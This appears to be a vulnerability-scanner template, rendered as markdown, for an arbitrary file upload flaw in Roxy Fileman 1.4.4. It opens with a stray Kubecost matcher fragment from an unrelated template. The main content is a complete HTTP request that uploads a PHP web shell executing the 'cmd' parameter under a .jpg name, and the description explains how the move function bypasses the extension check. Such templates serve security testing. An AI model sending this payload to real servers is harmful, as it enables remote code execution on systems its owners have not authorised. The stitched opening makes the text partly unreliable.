 - words
  1. \<title>Cluster Overview | Kubecost\</title>

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Roxy Fileman 1.4.4 - Arbitrary File Upload

## Description

- Roxy Fileman 1.4.4 is susceptible to remote code execution via the FORBIDDEN_UPLOADS setting, which is checked when renaming an existing file to a new file extension. An attacker can bypass this check and rename already uploaded files to any extension using the move function, which does not perform any checks.

- severity - high
- tags - intrusive,misconfig,edb,roxy,fileman,rce,fileupload

## Requests

### Step - 1

```
POST /php/upload.php HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6rbEqFAMRkE0RAB7

------WebKitFormBoundary6rbEqFAMRkE0RAB7
Content-Disposition: form-data; name="action"

upload
------WebKitFormBoundary6rbEqFAMRkE0RAB7
Content-Disposition: form-data; name="method"

ajax
------WebKitFormBoundary6rbEqFAMRkE0RAB7
Content-Disposition: form-data; name="d"

/app/Uploads
------WebKitFormBoundary6rbEqFAMRkE0RAB7
Content-Disposition: form-data; name="files[]"; filename="{{randstr}}.jpg"
Content-Type: image/jpeg

<?php
echo exec($_GET["cmd"]);
?>

------WebKitFormBoundary6rbEqFAMRkE0RAB7--

```
